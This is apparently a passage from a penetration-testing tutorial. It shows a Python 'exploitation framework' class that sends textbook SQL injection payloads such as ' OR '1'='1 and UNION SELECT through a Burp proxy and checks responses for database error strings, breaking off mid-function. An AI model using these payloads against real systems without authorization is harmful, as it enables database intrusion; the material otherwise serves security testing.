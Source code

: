 #### Step 2: Manual Exploitation Framework
```python
#!/usr/bin/env python3
# File: burp_exploitation_framework.py

import json
import requests
from datetime import datetime
import base64
import urllib.parse

class ExploitationFramework:
    def __init__(self, target_url, burp_proxy=None):
        self.target_url = target_url
        self.session = requests.Session()
        self.exploits = []
        
        if burp_proxy:
            self.session.proxies.update({
                'http': burp_proxy,
                'https': burp_proxy
            })
    
    def test_sql_injection(self, endpoint, parameter):
        """Test SQL injection vulnerability"""
        
        payloads = [
            "' OR '1'='1",
            "' OR '1'='1'--",
            "' UNION SELECT 1,2,3--",
            "admin'--",
            "' OR 1=1#"
        ]
        
        results = []
        
        for payload in payloads:
            try:
                if endpoint.find('?') > -1:
                    test_url = f"{endpoint}&{parameter}={urllib.parse.quote(payload)}"
                else:
                    test_url = f"{endpoint}?{parameter}={urllib.parse.quote(payload)}"
                
                response = self.session.get(test_url)
                
                # Check for SQL injection indicators
                sql_indicators = [
                    'mysql_fetch',
                    'ORA-01756',
                    'Microsoft OLE DB Provider',
                    'syntax error',
                    'mysql_num_rows',
                    'SQLSTATE'
                ]
                
                for indicator in sql_indicators:
                    if indicator.lower() in response.text.lower():
                        results.append({
                            'payload': payload,
                            'url': test_url,
                            'evidence': indicator,
                            'response_length': len(response.text),
                            'status_code': response.status_code,
```